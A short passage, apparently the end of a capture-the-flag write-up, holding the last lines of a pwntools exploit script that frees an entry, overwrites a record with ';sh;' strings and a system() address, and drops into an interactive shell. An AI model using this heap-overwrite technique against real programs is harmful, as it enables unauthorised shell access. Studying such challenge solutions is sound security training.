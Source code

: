 
delete(2)

r.sendline("\n")

edit_person(2,256,";sh;"+p32(0)*3+p32(system)+";sh;")

r.interactive()

{% endhighlight %}

